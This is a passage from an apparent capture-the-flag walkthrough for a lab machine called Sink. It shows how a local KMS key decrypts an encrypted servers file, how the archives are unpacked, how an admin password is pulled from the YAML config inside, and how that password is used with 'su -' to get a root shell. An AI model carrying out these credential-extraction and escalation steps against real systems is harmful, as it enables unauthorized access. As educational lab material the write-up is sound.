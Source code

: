 ```
        "Enabled": true,
        "Description": "Digital Signature Verification",
(...)
```

The key with the description _"Encryption and Decryption"_ is probably needed to decrypt the file:
```
awslocal kms decrypt --key-id 804125db-bdf1-465a-a058-07fc87c0fad0 --ciphertext-blob fileb://servers.enc --encryption-algorithm RSAES_OAEP_SHA_256 --output text
```

It outputs a Base64-encoded string, that has to be decoded:
```
cat servers.enc.b64 | base64 -d > servers.enc
```
```
file servers.enc

servers.enc: gzip compressed data, from Unix, original size modulo 2^32 10240
```

It is a **gzip archive** that has to be decompressed:
```
mv servers.enc servers.gz

gzip -d servers.gz
```
```
file servers

servers: POSIX tar archive (GNU)
```

It is a **tar archive** that has to be decompressed:
```
mv servers servers.tar

tar -xvf servers.tar
```

It contains two files _servers.sig_ and _servers.yml_ which has some hostnames and credentials:
```
server:
  listenaddr: ""
  port: 80
  hosts:
    - certs.sink.htb
    - vault.sink.htb
defaultuser:
  name: admin
  pass: _uezduQ!EY5AHfe2
```

After trying the password to switch users with `su -`, it starts a shell as root!
